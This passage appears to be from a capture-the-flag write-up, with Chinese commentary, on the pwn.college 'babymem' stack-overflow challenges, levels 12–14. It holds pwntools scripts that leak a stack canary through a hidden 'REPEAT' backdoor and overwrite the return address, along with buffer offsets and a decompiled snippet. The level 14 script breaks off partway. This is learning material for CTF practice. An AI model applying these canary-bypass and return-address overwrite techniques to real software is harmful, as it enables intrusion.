 ```python
context.log_level='info'
r = process("/challenge/babymem_level12.0")
payload1 = b'REPEAT' + b'a'*49 + b'b'

r.sendlineafter(b'Payload size: ', str(len(payload1)))

r.sendafter(b'bytes)!\n', payload1)
r.recvuntil("- the canary value is now 0x")
addr = int(r.recvline()[:-2], 16)
log.success("addr => {}".format(hex(addr)))

r.sendline("74")
r.sendline(b'\xaa' * 56 + p64(addr) + b'\xaa' * 8 + b'\xa3\x24')

#r.send(b'\x00' * 8 + b'\xa3\x24')
#r.interactive()
print(r.readall())
```

#### Level 13
This challenge reads the flag file to verify it. Do you think this might leave traces of the flag around afterwards?

The flag was read into address 0x7ffc354390b2.

The challenge() function has just been launched!
However... An important initialisation step was missed.
Use this to your advantage!
这题搞得我有点懵，看了半天不知道从哪入手。再一看存flag的地址有数据，直接复制出去发现就是flag。。

#### Level 14
This challenge has a trick hidden in its code. Reverse-engineer the binary right after this puts()
call to see the hidden backdoor!
That means that you will need to input at least 352 bytes (325 to fill the buffer,
19 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).
这一关同样是有后门，拖到Cutter中看看。
```C
iVar3 = strstr(buf, "REPEAT");
if (iVar3 == 0) {
puts("Goodbye!");
uVar2 = 0;
} else {
puts();
uVar2 = challenge((uint64_t)(uint32_t)var_174h, var_180h, var_188h);
}
```
是和上面一样的输入REPEAT就重启。
buffer -> canary: 328
canary: 8
canary -> return: 8
return: 1fbc
```python
from pwn import *
context.log_level='info'
r = process("/challenge/babymem_level14.0")
payload1 = b'REPEAT' + b'a'*49 + b'b'

r.sendlineafter(b'Payload size: ', str(len(payload1)))

r.sendafter(b'bytes)!\n', payload1)
r.recvuntil("- the canary value is now 0x")
canary = int(r.recvline()[:-2], 16)
log.success("addr => {}".format(hex(canary)))
r.sendline("346")
```